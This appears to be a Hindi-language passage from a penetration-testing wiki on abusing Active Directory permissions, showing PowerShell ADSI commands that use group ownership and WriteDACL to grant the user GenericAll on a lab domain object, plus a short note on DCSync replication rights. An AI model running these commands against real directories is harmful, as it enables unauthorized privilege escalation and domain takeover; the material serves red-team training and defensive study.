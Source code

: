 ## WriteDACL + WriteOwner

यदि आप किसी समूह के मालिक हैं, जैसे मैं `Test` AD समूह का मालिक हूँ:

![](../../../.gitbook/assets/22.png)

जिसे आप बेशक पावरशेल के माध्यम से कर सकते हैं:
```csharp
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value
```
![](../../../.gitbook/assets/23.png)

और आपके पास उस AD ऑब्जेक्ट पर `WriteDACL` है:

![](../../../.gitbook/assets/24.png)

...तो आप एक चुटकुले के साथ [`GenericAll`](../../../windows/active-directory-methodology/broken-reference/) विशेषाधिकार प्राप्त कर सकते हैं:
```csharp
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
जिसका मतलब है कि अब आप पूर्णतः AD ऑब्जेक्ट को नियंत्रित करते हैं:

![](../../../.gitbook/assets/25.png)

इसका अर्थ है कि अब आप समूह में नए उपयोगकर्ता जोड़ सकते हैं।

दिलचस्प है कि मैं एक्टिव डिरेक्टरी मॉड्यूल और `Set-Acl` / `Get-Acl` cmdlets का उपयोग करके इन अधिकारों का दुरुपयोग नहीं कर सका:
```csharp
$path = "AD:\CN=test,CN=Users,DC=offense,DC=local"
$acl = Get-Acl -Path $path
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule (New-Object System.Security.Principal.NTAccount "spotless"),"GenericAll","Allow"
$acl.AddAccessRule($ace)
Set-Acl -Path $path -AclObject $acl
```
![](../../../.gitbook/assets/26.png)

## **डोमेन पर प्रतिलिपि (DCSync)**

**DCSync** अनुमति में डोमेन पर इन अनुमतियों का होना शामिल है: **DS-Replication-Get-Changes**, **Replicating Directory Changes All** और **Replicating Directory Changes In Filtered Set**।\
[**डीसीसिंक हमले के बारे में और अधिक जानें।**](../dcsync.md)
